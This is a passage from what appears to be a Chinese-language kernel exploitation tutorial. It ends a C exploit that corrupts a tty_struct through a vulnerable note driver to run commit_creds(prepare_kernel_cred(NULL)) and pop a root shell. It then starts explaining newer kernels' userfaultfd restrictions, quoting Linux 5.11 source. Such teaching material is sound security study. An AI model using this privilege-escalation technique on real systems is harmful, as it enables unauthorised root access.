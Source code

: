 ```c
    puts("[*] triger commit_creds(prepare_kernel_cred(NULL)) and fix tty...");

    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    fake_tty_struct_data[3] = fake_tty_ops_addr;
    fake_tty_struct_data[4] = kernel_offset + PREPARE_KERNEL_CRED;
    fake_tty_struct_data[5] = (size_t) NULL;

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* commit_creds(&root_cred) */
    note_read(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    note_wriite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    note_wriite(0, fake_tty_struct_data);

    /* pop root shell */
    get_root_shell();

    return 0;
}
```

## 新版本内核对抗 userfaultfd 在 race condition 中的利用

正所谓“没有万能的银弹”，可能有的人会发现在较新版本的内核中 userfaultfd 系统调用无法成功启动：

![uffd_failed](figure/uffd_failed.png)

这是因为在较新版本的内核中修改了变量 `sysctl_unprivileged_userfaultfd` 的值：

> 来自 linux-5.11 源码`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```
